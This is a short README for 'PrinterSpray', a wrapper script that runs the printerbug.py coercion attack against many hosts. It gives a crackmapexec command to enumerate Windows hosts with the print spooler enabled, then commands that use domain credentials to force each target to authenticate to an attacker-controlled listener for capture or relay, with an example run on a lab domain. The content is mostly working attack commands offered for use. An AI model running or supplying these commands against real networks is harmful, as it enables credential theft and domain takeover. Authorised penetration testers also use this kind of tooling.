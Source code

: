 # PrinterSpray

Wrapper of https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py to be used with a list of IPs. 

Discover potentual targets

```
crackmapexec smb [subnet] -M spooler | grep "Spooler service enabled" | awk -F " " '{print$2}' > spooler.txt
```

Run against hosts that have the spooler service enabled

```
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```

Example:

```
./printerspray.sh -t ./spooler.txt -d 'labdomain.local' -u 'ADuser1' -p 'pwd' -l 192.168.1.23
```
